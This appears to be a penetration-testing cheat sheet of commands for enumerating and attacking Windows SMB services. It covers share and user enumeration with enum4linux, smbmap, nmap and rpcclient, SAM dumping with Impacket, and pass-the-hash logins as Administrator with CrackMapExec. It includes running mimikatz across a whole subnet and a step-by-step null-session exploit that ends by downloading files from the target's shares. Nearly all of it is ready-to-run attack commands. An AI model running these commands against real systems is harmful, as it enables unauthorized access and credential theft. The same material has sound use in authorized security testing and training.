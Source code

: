 
## Enumerate SMB:

Enum4linux:

- Enum4linux -a 172.21.0.0

SMBmap:

- smbmap -H 172.21.0.0 -d [domain] -u [user] -p [password]
- smbmap -H 172.21.0.0 -d [domain] -u "" -p ""

Nmap: 

- nmap --script smb-* -p 139,445, 172.21.0.0
- nmap --script smb-enum-* -p 139,445, 172.21.0.0

/usr/share/nmap/scripts/smb-brute.nse
/usr/share/nmap/scripts/smb-enum-domains.nse
/usr/share/nmap/scripts/smb-enum-groups.nse
/usr/share/nmap/scripts/smb-enum-processes.nse
/usr/share/nmap/scripts/smb-enum-services.nse
/usr/share/nmap/scripts/smb-enum-sessions.nse
/usr/share/nmap/scripts/smb-enum-shares.nse
/usr/share/nmap/scripts/smb-enum-users.nse
/usr/share/nmap/scripts/smb-flood.nse
/usr/share/nmap/scripts/smb-ls.nse
/usr/share/nmap/scripts/smb-mbenum.nse
/usr/share/nmap/scripts/smb-os-discovery.nse
/usr/share/nmap/scripts/smb-print-text.nse
/usr/share/nmap/scripts/smb-protocols.nse
/usr/share/nmap/scripts/smb-psexec.nse
/usr/share/nmap/scripts/smb-security-mode.nse
/usr/share/nmap/scripts/smb-server-stats.nse
/usr/share/nmap/scripts/smb-system-info.nse


SMBClient: 

- smbclient -L 172.21.0.0
- smbclient //172.21.0.0/tmp

Impacket SmbClient: 

- /usr/share/doc/python3-impacket/examples/smbclient.py username@172.21.0.0

RPCclient: 

- rpcclient -U "" -N 172.21.0.0 enumdomusers

Impacket: 

- python3 samdump.py SMB 172.21.0.0

CrackMapExec: 

- crackmapexec smb -L 
- crackmapexec 172.21.0.0 -u Administrator -H [hash] --local-auth
- crackmapexec 172.21.0.0 -u Administrator -H [hash] --share
- crackmapexec smb 172.21.0.0/24 -u user -p 'Password' --local-auth -M mimikatz

Null Session:

1) Use "enum4linux -n" to make sure if "<20>" exists:

#enum4linux -n 192.168.1.10

2) If "<20>" exists, it means Null Session could be exploited. Utilize the following command to get more details:

#enum4linux 192.168.1.10

3) If confirmed that Null Session exists, you can remotely list all share of the target:

#smbclient -L WORKGROUP -I 192.168.1.10 -N -U ""

4) You also can connect the remote server by applying the following command:

#smbclient \\\\192.168.1.10\\c$ -N -U ""

5) Download those files stored on the share drive:

smb: \> get Congratulations.txt

